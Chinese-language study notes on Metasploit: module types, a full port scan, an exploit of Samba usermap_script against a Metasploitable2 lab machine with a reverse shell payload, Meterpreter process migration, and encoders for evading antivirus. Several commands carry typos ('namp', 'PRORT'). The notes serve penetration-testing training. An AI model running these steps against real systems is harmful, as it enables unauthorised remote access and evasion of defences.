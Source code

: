 # Metasploit模块
1. Auxiliaries 辅助模块
负责执行扫描，嗅探，指纹识别等相关功能以辅助渗透测试。
2. Exploit 漏洞利用模块
利用一个系统、应用或服务中的安全漏洞进行的攻击行为。
3. Payload 攻击载荷模块
成功渗透目标后，用于在目标系统上运行任意命令或者特定代码，在Metasploit框架中可以自由选择、传送和植入。
4. Post 后期渗透模块
主要负责获取到目标系统远程控制权限后，进行一系列的后渗透攻击动作。
5. Encoders 编码工具模块
负责在渗透测试中负责免杀，防止被安全设备或软件识别出来。
# 渗透攻击步骤
1. 扫描目标机系统，寻找可用漏洞
2. 选择并配置一个漏洞利用模块
3. 选择并配置一个攻击载荷模块
4. 选择一个编码即使，用来绕过杀毒软件的查杀
5. 渗透攻击

## 一、使用辅助模块进行端口扫描
     1.msfconsole
     2.search portscan
     3.use auxiliary/scanner/portscan/tcp
     4.show options
     5.set RHOST 169.254.170.249
     6.set PORTS 1-65535
     7.set THREADS 10
     8.show options
     9.run
## 常用的扫描模块及功能
p193
## 二、漏洞利用
  
     实验下载地址：https://sourceforge.net/projects/metasploitable/files/Metasploitable2
     默认的登录名和密码是msfadmin：msfadmin
1. 收集目标机的信息

        namp -Sv 192.168.101.135
        发现Samba 3.x服务
2. 搜索漏洞利用模块
     
       search samba
       返回的利用列表是根据利用难度来整理的
4. 查看漏洞详细信息

       可以查看漏洞利用模块信息
       info exploit/multi/samba/usermap_script
5. 漏洞模块利用

       use exploit/multi/samba/usermap_script
       命令行由msf>变成msf5 exploit(multi/samba/usermap_script) > 
6. 查看漏洞利用模块下可供的攻击载荷模块

       show payloads
7. 选择一个攻击载荷进行攻击

        这里选择cmd/unix/revers反向攻击载荷模块
        set PAYLOAD cmd/unix/reverse
8. 设置攻击主机IP地址

      set RHOST 192.168.101.135
        
9. 设置漏洞利用端口

      set PRORT 445
10. 设置发动攻击主机ip地址

      set LHOST 192.168.101.131
11. 输入攻击命令

      exploit或者run

## 四、进程迁移
刚获取Meterpreter Shell时，该Shell是脆弱的。例如，攻击者可以利用浏览器漏洞攻陷目标机器，但攻击渗透后浏览器有可能被用户关闭，所有第一步要移动这个shell，把它和目标机中的一个文档进程绑定在一起，也不需要对磁盘进行任何写入操作，使得更安全
1. 查看目标机正在运行的进程

       meterpreter > ps
       ps命令获取目标主机正在运行的进程

2. 查看Meterpreter Shell的进程号

       meterpreter > getpid
       获取Meterpreter shell的pid进程号
4. 迁移进程号

       meterpreter > migrate 448(要迁移到的进程号)
    进程迁移后原先的PID会自动关闭，如果没有关闭则可以使用kill 984(需要关闭的进程号)。

    同样也可以使用自动迁移进程命令

        run post/windows/manage/migrate
     系统会自动寻早合适的进程然后迁移
